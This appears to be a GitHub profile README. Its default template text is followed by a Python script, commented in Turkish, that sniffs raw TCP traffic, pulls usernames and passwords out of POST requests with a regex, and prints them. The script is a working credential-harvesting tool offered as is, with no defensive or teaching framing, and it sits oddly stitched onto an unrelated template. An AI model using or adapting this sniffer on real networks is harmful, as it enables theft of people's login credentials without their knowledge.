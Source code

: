 - 👋 Hi, I’m @Neutronxq
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Neutronxq/Neutronxq is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
import socket
import re

# Kullanıcı adı ve şifreyi almak için regex deseni
username_password_pattern = re.compile(r"(username|user|login|email)=(\S+).*?(password|pass)=(\S+)")

def listen_for_post_requests():
    # Soket oluşturma ve bağlama
    s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)
    s.bind(("0.0.0.0", 0))  # Tüm IP'lerden gelen veriyi dinler (port verilmez)
    print("Dinleniyor: Tüm POST istekleri üzerinde")

    while True:
        data, addr = s.recvfrom(65535)  # Tüm veriyi al
        data = data.decode('utf-8', errors='ignore')  # Veriyi metne çevir

        # Eğer gelen veri POST isteği içeriyorsa
        if "POST" in data:
            match = username_password_pattern.search(data)  # Regex ile kullanıcı adı ve şifreyi ara
            if match:
                username = match.group(2)  # Kullanıcı adı
                password = match.group(4)  # Şifre
                print(f"Kullanıcı Adı: {username}, Şifre: {password}")  # Yazdır

# Dinlemeyi başlat
listen_for_post_requests()  # POST isteklerini dinlemeye başla
